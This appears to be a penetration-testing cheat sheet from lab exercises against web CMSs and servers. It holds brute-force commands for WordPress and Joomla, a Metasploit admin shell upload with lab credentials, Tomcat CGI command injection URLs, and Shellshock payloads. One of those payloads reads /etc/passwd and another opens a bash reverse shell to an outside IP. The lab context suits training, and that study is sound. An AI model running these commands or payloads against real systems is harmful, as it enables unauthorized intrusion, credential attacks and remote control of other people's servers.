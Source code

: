 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## Joomla

### Enumeration

[droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.  

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Brute Force

[joomla-brute.py](https://github.com/ajnik/joomla-bruteforce)
```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Drupal

### Enumeration

```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Tomcat CGI

### Fuzzing Extentions - .CMD

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### Fuzzing Extentions - .BAT

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Enumeration - Gobuster

```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Exploitation 
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Confirming the Vulnerability

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### Exploitation to Reverse Shell Access

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```


# Miscellaneous Applications

## IIS Tilde Enumeration

### Tilde Enumeration using IIS ShortName Scanner

[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```

### Generate Wordlist

```
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

```
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```


## Attacking Applications Connecting to Services

### ELF Executable Examination

Once the binary is loaded, we set the disassembly-flavor to define the display style of the code, and we proceed with disassembling the main function of the program.  
```
gdb-peda$ gdb ./octopus_checker
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
```
```
b *0x11b0
run
```

